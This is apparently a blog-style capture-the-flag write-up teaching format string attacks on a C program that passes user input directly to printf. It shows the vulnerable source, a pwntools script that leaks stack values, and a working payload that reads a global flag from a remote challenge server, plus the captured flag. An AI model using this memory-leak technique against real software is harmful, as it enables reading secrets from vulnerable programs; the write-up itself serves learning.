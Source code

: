 ```yaml
---
title: "Learning about format string vulnerabilities"
date: 2025-06-18
summary: "Sometime last year, I took part in the company hackathon and came across some nice questions which were fun to solve. This post is about learning how to exploit unsafe uses of printf in C code."
draft: false
---
```


Sometime last year, I took part in the company hackathon and came across some nice questions which were fun to solve. This post is about learning how to exploit unsafe uses of printf in C code.

The problem with a C source file and a binary called nuformat1. Inspecting the source code:

```c
char flag[48];
.
.
 
void vuln()
{
    char input[32];
    puts("What is your name?");
    fgets(input, 18, stdin);
    printf(input);
}
 
int main()
{
    read_flag();
    vuln();
    return 0;
}
```

I did not really know what the exact vulnerability involved is, since I've never done much binary exploitation. It is obvious that the vuln is in vuln() function, so it looks like either fgets or printf are the culprits. fgets made me think of buffer overflow, but we did have the size to read hardcoded, so it did not make as much sense too. I googled around binary exploitation common vulns and printf and fgets and stumbled upon this: Format string attack


The naming of the question cannot be a coincidence to this printf vulnerability, so heads down to learn this new idea. I took help from llms and this specific resource: https://tc.gts3.org/cs6265/tut/tut05-fmtstr.html

The gist of the attack is that printf is able to help us climb the stack arbitrarily and read values AND read the strings at those addresses (indirect).
If you do not give printf a second arg but still supply formatters, it starts looking into the stack. So `printf('%p')` will print the first value on the stack as a pointer. `'%p%p'` will print both the first and the second value on the stack. More conveniently `'%[n]$p'` can help read the nth value on the stack. Not just this, but `'%[n]$s'` can read the string at the ADDRESS stored as the nth value on the stack.


So, if `'%3$p'` prints `0xCOFFEE` then `'%3$s'` will READ and print the string at `0xCOFFEE` till it finds NULL (0x0)

I wrote a small script to probe around and see what values I can see around the stack:

```python
from pwn import *
context.log_level = 'ERROR'  # Suppress pwntools output
 
def generate_format_string(start_idx, count=3):
    return 'AAA' + ' '.join([f'%{i}$p' for i in range(start_idx, start_idx + count)])
 
for i in range(1, 30, 3):
    p = process('./nuformat1')
    fmt = generate_format_string(i)
    p.recvuntil(b"What is your name?\n")
    p.sendline(fmt.encode())
    out=p.recvall().decode().strip()
    print('{} {} {}: '.format(i, i+1, i+2)+out)
    p.close()
```

The 'AAA' string is a good way to mark your own string. It shows up as 0x41 in hex.

And this is what we get. Look at those 41s!
It looks like `%8$p` prints our string! (so does %9$p)

This makes the question interesting, because we have an area of memory that we have full control over, and KNOW where it is. If I were to now put the location of the global flag variable in %8 and do %$s then I would be able to print what is in flag variable!


But of course first I need to find the location of the flag variable. I do this with objdump

```
(venv) ubuntu@ctf-machine:~/tmp/format1$ objdump -t nuformat1 | grep flag
0000000000404020 g     O .bss   0000000000000030              flag
```

This is in the bss section of the binary, so it is probably not going to change, even on the server.

So now I know that the flag variable is at `0x404020`, I just need to put `0x404020` somewhere and read it with `%[n]$s`.

Let's make our payload! I chose to put the address in %9 (for some reason %8 just didn't work for me)

```python
from pwn import *
 
payload = b"%9$s" + b"AAAA" + b"\x20\x40\x40\x00\x00\x00\x00\x00" # Little-endian business (This is 0x0000000000404020)
# payload = b'%9$s....' + p64(0x404020) # Can also write like this, p64 is a util from pwn
 
#p = process('./nuformat1')
p = remote('nuformat1-1610741707.ctf.nutanix.com', 10007)
p.recvuntil(b"What is your name?\n")
p.sendline(payload)
print(p.recvall())
```

Running this gives us our flag!
```
(venv) ubuntu@ctf-machine:~/tmp/format1$ python retro.py
[+] Opening connection to nuformat1-1610741707.ctf.server.com on port 10007: Done
[+] Receiving all data: Done (49B)
[*] Closed connection to nuformat1-1610741707.ctf.server.com port 10007
b'NuCTF{1_l0v3_f0rm4t_str1ng5_34res73fsywer}.... @@'
```

FIN